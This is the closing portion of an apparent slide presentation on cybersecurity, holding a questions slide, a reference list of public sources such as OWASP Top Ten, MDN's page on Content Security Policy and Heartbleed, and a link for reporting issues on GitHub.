

---
layout: false
background-image: url(images/any-questions.jpg)
---
## References

<div id="before-references"></div>

- https://en.wikipedia.org/wiki/Computer_security
- https://me-en.kaspersky.com/resource-center/definitions/what-is-cyber-security
- https://www.varonis.com/blog/cybersecurity-statistics/
- Hansman, Simon, and Ray Hunt. "A taxonomy of network and computer attacks." Computers & Security 24.1 (2005): 31-43.
- https://en.wikipedia.org/wiki/Information_security
- https://owasp.org/www-project-top-ten/
- https://www2.slideshare.net/ultimatesecpro/owasp-top-ten-2017
- https://www2.slideshare.net/ShreyasN6/owasp-2017-oveview-102859879
- https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- https://cr.openjdk.java.net/~briangoetz/amber/serialization.html
- https://en.wikipedia.org/wiki/Heartbleed

If you found an issue or have a suggestion, feel free to contact us.

<a class="github-button" href="https://github.com/QueraTeam/presentations/issues" data-icon="octicon-issue-opened" data-size="large" aria-label="Issue QueraTeam/presentations on GitHub">Report Issues</a>